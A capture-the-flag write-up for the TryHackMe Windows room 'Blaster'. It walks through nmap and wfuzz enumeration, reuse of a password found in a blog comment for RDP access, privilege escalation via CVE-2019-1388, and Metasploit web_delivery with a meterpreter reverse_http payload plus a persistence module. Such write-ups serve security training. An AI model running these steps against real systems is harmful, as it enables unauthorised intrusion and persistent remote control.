

# TryHackMe Writeup - Blaster

This is a writeup to the TryHackMe Windows machine "Blaster".

<https://tryhackme.com/room/blaster>

## Task 1: Reconnaissance

First let's start as always: Perform some reconnaissance at our target. I start by scanning the machine for any open ports with nmap

```
sudo nmap -p- -A --script vuln <Target IP>
```

The "vuln" script is a script from nmap which tries to detect common vulnerabilities on the discovered open ports of the machine.

This is a part of the nmap result:

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

There are 2 open ports on the machine. Port 80 seems to host a webserver. Port 3389 is also open - probably for RDP.

Let's check the webserver. To get better access I opened the "/etc/hosts" file with the command 

```
sudo nano /etc/hosts
```

and added the following line:

```
<Target IP> machine.thm
```

Now it is possible to access the machine via the hostname "machine.thm" which makes web enumeration easier later.

I opened the webbrowser and checked the website:



The standard interface of a Microsoft Windows Server shows up.

I started webpage enumeration with wfuzz by the command

```
wfuzz -u http://machine.thm/FUZZ -w Desktop/wordlist/dirbuster_wordlist_medium.txt --hc 404
```

The "-u" parameter defines the URL which shall be fuzzed. In the URL the word "FUZZ" gets replaced by the according word from the wordlist which is provided. The path to the wordlist is specified by the "-w" parameter. In this case I used a wordlist from dirbuster - but there are many different wordlists available on GitHub & co. The "--hc 404" parameter defines that all requests of wfuzz which return a HTTP 404 "not found" error will not be shown. For further parameters and explanation please check out the

```
wfuzz --help
```

command.

This is a part of the output of the wfuzz enumeration:

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================                                                                                                         
000004975:   301        1 L      10 W       148 Ch      "retro"                                                                                                                                                                   
000031429:   301        1 L      10 W       148 Ch      "Retro"                                                                                                                                                                   
```

A subpage named "retro" is found. Let's navigate to it:


The subpage is a blog about retro games where a user named "wade" published some blog entries.  
  
On his user page a side menu is available


In the side menu there is also a 


"Comments RSS" link which downloads a xml file. In the file there is a interesting comment:


Maybe this is a password reminder or something like this. Let's try logging in. Down on the page there is a "Log in" link which refers us to a wordpress login.


At the wordpress login we can successfully login with the Username "Wade" and the password "Parzival".

Maybe it is possible to login at the open RDP port with the same credentials. I use the command

```
xfreerdp -u Wade machine.thm
```

The "domain" entry can be left empty. When asked I entered the password "parzival" and got a remote desktop connection established.

On the desktop there can be found a "user.txt" file which contains the first flag of the machine.

## Task 2: Privilege escalation

On the desktop there is a file called "hhupd". A quick google search revealed, that there is a CVE from 2019 with the id CVE-2019-1388 in the hhupd file.  
How this vulnerability can be exploited is described [here](https://github.com/nobodyatall648/CVE-2019-1388).

I then followed the steps described in the tutorial and got a cmd shell as system. With the

```
whoami
```

command I verified that I am running the terminal as SYSTEM user:


With the elevated privileges we can access the administrator account and read the flag. I started a powershell command prompt inside the cmd command prompt with the

```
powershell
```

command. Then I accessed the administrator flag with the

```
cat C:\Users\Administrator\Desktop\root.txt
```

command. The flag appears.

## Task 3: Persistence

Let's try another way to get a remote shell. I opened the metasploit framework with the

```
msfconsole
```

command. I then selected the exploit with the

```
use exploit/multi/script/web_delivery
```

command. This exploit will host a local webserver with a payload on it. Then we need to execute a specific command on the target machine. With

```
show options
```

the options of the exploit are shown. With the 

```
show targets
```

command we can show all possible targets like python, powershell etc. Here we want to select the powershell target with the

```
set TARGET 2
```

Then we set the payload to meterpreter payload on windows via http with the

```
set payload windows/meterpreter/reverse_http
```

command. Here we also need to specify the LHOST parameter with the

```
set LHOST <Your own IP>
```

command. Also the LPORT parameter needs to be set. By default 8080 is defined, but in this case the exploit already runs on port 8080. So the port needs to be changed by the

```
set LPORT <Your desired port>
```

command. Then everything is set up and the exploit can be fired with the

```
exploit
```

command.

The exploit generates the payload and pastes a command string which we need to copy and execute in the admin shell on the target. Then a meterpreter session is established and we can access the target system via the meterpreter shell. With the command

```
sessions
```

we can list all available sessions. 

Then we open the meterpreter session with the

```
sessions <SESSION ID>
```

command. 

Now let's get persistent on the remote system. I will do this by the

```
run exploit/windows/local/persistence LHOST=<YOUR IP>
```

command. The 

```
run persistence
```

command is deprecated but the correct answer for the question in TryHackMe.

In this specific case the Windows Defender detects the meterpreter malware and deletes it.

The machine is done!